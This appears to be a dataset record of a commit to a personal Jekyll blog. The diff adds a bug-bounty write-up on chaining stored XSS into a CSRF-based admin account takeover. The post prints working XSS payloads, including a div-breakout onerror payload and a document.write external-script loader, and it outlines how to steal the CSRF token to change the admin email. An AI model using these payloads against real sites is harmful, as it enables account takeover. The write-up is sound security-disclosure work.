

Before and after one commit to ksharinarayanan/ksharinarayanan.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 416 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code.

Commit message:
Added stored-xss-to-csrf

```diff
--- a/_posts/2020-05-17-welcome-to-jekyll - Copy (2).markdown
+++ b/_posts/2020-05-18-my-first-bug.markdown
@@ -4,7 +4,6 @@ title: My first bug !
 description: Get to know how I found my first bug, and took over a whole page completely.
 date:   2020-05-17 16:11:05 +0530
 date_only: May 18, 2020
-categories: jekyll update
 permalink: /my-first-bug/
 reading_time: 4 minutes
 image: /assets/images/stored_xss.png
--- /dev/null
+++ b/_posts/2020-05-21-xss-to-csrf.markdown
@@ -0,0 +1,103 @@
+---
+layout: default
+title: Stored XSS to CSRF
+description: There's much more to XSS than just an alert !
+date:   2020-05-21
+date_only: May 21, 2020
+permalink: /stored-xss-to-csrf/
+reading_time: 6 minutes
+image: /assets/images/stored-xss-to-csrf/poc.png
+---
+<head>
+  <link rel="stylesheet" href="/assets/css/main1.css">
+  <!-- Latest compiled and minified CSS -->
+  <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css">
+
+  <!-- jQuery library -->
+  <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
+
+  <!-- Popper JS -->
+  <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.16.0/umd/popper.min.js"></script>
+
+  <!-- Latest compiled JavaScript -->
+  <script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js"></script>
+
+  <title>{{ page.title }}</title>
+  <style>
+    .content{
+        font-size: 20px;
+    }
+
+  </style>
+</head>
+
+<section id="one" class="wrapper style1">
+  <div class="inner">
+
+    <article class="feature left" style="background-color: white; color: black;">
+        <center style="padding-bottom: 20px;">
+            <h2 style="padding: 20px; color: black;"><b>{{ page.title }}</b></h2>
+            <div style="color:#0067a3">
+              {{ page.date_only }}
+              <br />
+              ~{{ page.reading_time }}
+            </div>
+
+        </center>
+        <div class="content" style="padding:10px;">
+            <p>
+                There's almost no limit what you can do with XSS, stored XSS in particular, in most of the situations. It allows javascript code execution in the victim's browser. XSS is not just about popping an alert box and stealing cookies is just one method, which is decreasing because many websites have HttpOnly flag on their cookies which protects them. In that case, if you don't know exploiting it other than stealing cookies, even though your submission would be accepted, you could be missing out on high impacts, like account takeover.
+                <br ><br >
+
+                I received an invite for a private program a few days back. It was a workflow management websites, where you could assign your team members project, and upload files, and other stuff with different levels of users. I decided to hack on it, as these kind of different user privileges super excites me due to the large scope of privilege escalation.
+
+                So, I started browsing the site understanding it's functionality. Now, there was a project section, where users could keep their project private, or add some of their team members in it. There was a functionality to add comments to the project, and the members added in the project had the option to add like to the comment. But knowing the project ID, I was able to add likes to a project, which I was not a part of, and had no visibility permissions. I reported this, and I received a response stating that the project ID is not predictable, and status was changed to "Won't fix" and it got me only 5 points☹️
+
+                Next, there was a functionality to search other users, by their username. The endpoint was something like
+            </p>
+            <center>
+                <img src="/assets/images/stored-xss-to-csrf/api_request.png" alt="" height="30%" width="80%" />
+            </center>
+            <br /><br />
+            <p>
+                I have stripped out a lot of other things for simplicity. This would return a response containing all the users whose name starts with "micha" like michaelben, michael etc.
+                So the response was something like
+            </p>
+            <center>
+                <img src="/assets/images/stored-xss-to-csrf/api_response.png" alt="" height="30%" width="80%" />
+            </center>
+            <br ><br >
+            <p>
+                Again, the response contained a lot of other data, among which this was the most interesting ones. On a first glance, I thought this is leaking the address and mobile numbers of other team members, but later realised that they were actually visible on their profile.
+                <br />
+                Then the LIMIT parameter in the GET request caught my eyes, and I changed it to 1000. I got a hell lot of data regarding each of the team member. The response included the name of private documents uploaded by each user which was visible only to the user. Additionally, there were other details that the endpoint leaked such as private projects, and other information which were supposed to visible only to the particular user.
+                <br />
+                On reporting this, I got a reply saying this was by design ! 😨
+                Obviously, I couldn't do anything.
+            </p>
+            <br ><br >
+            <p>
+                I previously injected the XSS payload, <pre>"><img src onerror=alert(1)></pre> in one of the members name to test XSS, and it obviously didn't fire. I was just browsing using the admin account. I visited the member's profile with the payload. There was an option to deactivate the user. After deactivating, you receive a pop up saying "Deactivated {member name}". But when I deactivated this user, I got an invalid image symbol. I found this interesting. There are two possibilities which is mostly implemented in such a situation. One would be render the whole payload safely by some kind of filtering, and the other would be to completely remove the payload. But this removed only the tag , and so it loooked like <pre style="display: inline;">< img src=""></pre>. It was vulnerable to HTML and CSS injection, I could take down the whole page using <pre>< style>body{display: none}</style></pre>. But I was aiming XSS.
+
+                I tried to bypass this, but I couldn't. I decided to look at the source code. I knew that it was parsing my HTML tags. The notification content was enclosed within a div tag. I immediately closed the div tag, and entered my payload. So the final payload was <pre>"></div><img src onerror=alert(document.domain)</pre>.
+
+                Now when I deactivated the user with this payload, the payload fired. But I could not get the session cookies using this method, due to the HttpOnly flag. But I could get the CSRF token, using which I could change the admin email address. But again, since everything was against me, I was limited by the number of characters in the name where the payload must be injected.
+
+                So, I thought of referencing an external script to the page. I did <pre>document.getElementById("id").innerHTML = '< script src="http://localhost/alert.js"></script>'</pre>, where alert.js contained alert(document.domain), which would fire if the script was included. But it didn't. On more researching onto this, I found that scripts do not load in an already loaded page using the innerHTML method. Alternatively, using <pre>document.write("< script src='http://localhost/alert.js'></script>")</pre> could achieve it. I did that, and I got the alert.
+                Now just a simple POC.
+            </p>
+            <br ><br >
+            <center>
+                <img src="/assets/images/stored-xss-to-csrf/poc.png" alt="" height="30%" width="80%" />
+            </center>
+            <br /><br />
+            <p>
+                <ul>
+                    <li>Get the cookie string</li>
+                    <li>Extract only the value of CSRF-TOKEN from the string</li>
+                    <li>Send the POST request to change the email address with the CSRF-TOKEN in the header</li>
+                </ul>
+                Just don't stop with an alert box if you find XSS. It has a lot more potential.
+                <br>
+                See you again in the next blog post :)
+            </p>
```
Also changed, not shown: assets/images/stored-xss-to-csrf/api_request.png (added), assets/images/stored-xss-to-csrf/api_response.png (added), assets/images/stored-xss-to-csrf/poc.png (added).
